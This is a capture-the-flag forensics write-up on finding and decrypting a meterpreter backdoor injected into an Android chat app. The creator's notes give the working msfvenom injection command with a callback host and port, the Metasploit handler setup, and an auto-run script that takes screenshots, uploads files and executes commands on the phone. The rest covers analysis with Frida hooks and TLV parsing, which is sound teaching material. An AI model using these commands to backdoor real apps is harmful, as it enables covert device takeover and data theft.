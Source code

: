 # Forensics//ˈbæk.dɔːr/ Writeup

## Notes from the creator

This challenge was created by injecting a meterpreter reverse tcp client into an Open Source app semi-randomly picked from the [F-Droid Catalogue](https://f-droid.org/packages/de.spiritcroc.riotx/).
By using msfvenom this is straight forward: `sudo msfvenom -x de.spiritcroc.riotx.apk -p android/meterpreter/reverse_tcp LHOST=matrix.ept.gg LPORT=13337 -o matrix.apk`

We then fired up a meterpreter listener on a server running on matrix.ept.gg with the following config:

#### **`run.rc`**
```bash
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 13337
set AutoRunScript /home/kali/backdoor/chall/multi.rc
set ExitOnSession false
exploit -j -z
```

#### **`multi.rc`**
```bash
sysinfo
screenshot -p /home/kali/backdoor/chall/downloads/ss.jpeg
upload /home/kali/backdoor/chall/flag.xor
rm flag.xor
screenshot -p /home/kali/backdoor/chall/downloads/ss2.jpeg
execute -H -f /system/bin/echo -a '68e4aa768c14bbdf5a9ea6bcf339206bd01ef1c513f4b46436'
exit
```

To kick it off we had a cronjob on reboot that would start metasploit with the above configuration.
#### **`autoexec.sh`**
```bash
/usr/bin/tmux new-session -d -s ENTER
/usr/bin/tmux detach -s ENTER
sleep 3
/usr/bin/tmux send-keys -t 0 "/usr/bin/msfconsole -r /home/kali/backdoor/chall/run.rc" ENTER
```

Our reverse TCP handler will now automatically execute the commands in `multi.rc` once we get a callback from the malicious APK.
The commands with the xored flag might feel a bit artificial or unsound, but the reasoning is that it should not be easy to cheese the solution by using only heapdumps and strings (@klarz). The intention was that you should somehow capture/extract the data from the C2 server to parse and view the commands that was sent to your device to get the full picture of what was happening to your phone. 

## Finding the backdoor

The first step to solve this challenge is to figure out that there is a meterpreter payload injected to the apk. This can be done in many ways and depends on your preferred methodology. Since this is a challenge targeted towards more experienced Android reversers/analysts I will not go into details, but looking at either network traffic or device file writes or tracing syscalls you would notice that something fishy is going on. The malicious code is also quite easily found by doing static analysis of the apk and you could potentially diff the original application with the modified malicious one. Either approach should eventually lead you to the package `de.spiritcroc.riotx.jtecm` and the `Bugeh` class where the staged payload is recieved from the C2 server and loaded by the application:

![](img/stagedPayload.png)

A nice opsec touch here is that the classes are deleted from the device file system after they are loaded. One way to obtain these classes for further inspection is to use [Frida](https://frida.re/) and hook the `java.io.File.Delete` method to prevent the deletion and fetch them from the device. 

```
Delete attempt prevented on  /data/user/0/de.spiritcroc.riotx/files/uxfn5w.jar
Delete attempt prevented on  /data/user/0/de.spiritcroc.riotx/files/met.jar
```

We'll retrieve the files and have a look in jadx-gui:

![uxfn5w.jar](img/stage1.png)

We can see that the first class (random chars.jar) is just another dynamical class loader that again loads the `met.jar`
Beware, when we open `met.jar` we are taking a leap into the mysteries and dark depths of the metasploit meterpreter and its Android implementation. After spending some time on understanding how the transport and communication between the client and the C2 server works we have quite a few possibilities on how to proceed. My approach was to go for the aesDecrypt method in `com.metasploit.meterpreter.Transport` where we should be able to get the cleartext data recieved from `public TLVPacket readAndDecodePacket(DataInputStream dataInputStream)`in the same class. 

![](img/meterpreterimpl.png)

![](img/readanddecrypt.png)

## Decrypting and parsing the meterpreter traffic

Now that we have figured out there is a meterpreter backdoor in our APK and we have a full understanding of how the Android meterpreter imeplementation works the next step is to hook methods related to `javax.crypto` to preserve keys, IVs and cipher objects. Presuming that someone already had done this I found the following Frida script making my life much easier: [AES_HOOK](https://raw.githubusercontent.com/berkayyildi/Frida-Android-Hooking/master/AES_HOOK.txt)

This will give you the raw data of all traffic between the client and the server, but due to the complexity and fine design of meterpreter communication and packet structure it will be quite difficult to read by the human eye. Meterpreter uses a specific TLV packet structure to implement the protocol for communication between the cilent and the server. Thus, the raw data must be translated/parsed into TLV packets. Again I felt that this have had to be done before so it lead me to the following project: [REW-Sploit](https://github.com/REW-sploit/REW-sploit). Reading up on this it sounded like it should be able to exactly what I wanted, but there are some limitations in this tool and it is not able to decrypt the traffic without the keys used for the aesEncryption. But we are already able to get the unencrypted TLV packets by hooking the crypto methods so we can use the parts of this projects that are responsible for parsing the TLV packets to human readable commands and data.

Finally, we have all the pieces required to be able to capture, decrypt and parse the traffic coming from the C2 server to the backdoored android application. It took a bit of work to fit the REW Sploit MSF parser with the AES HOOK script and, but in the end we get a fully working live cleartext view of all commands coming in from the C2 server after we launch the APK:

![Solve video](img/solve.mp4)

There are other ways to accomplish this by doing various monitoring/tracing directly on the device or you can use other hooking approaches. e.g by hooking the dynamically loaded meterpreter classes that are responbible for executing commands etc. This is just one example that required me to get a better understanding of Frida and the underlying implementation of the meterpreter protocol.
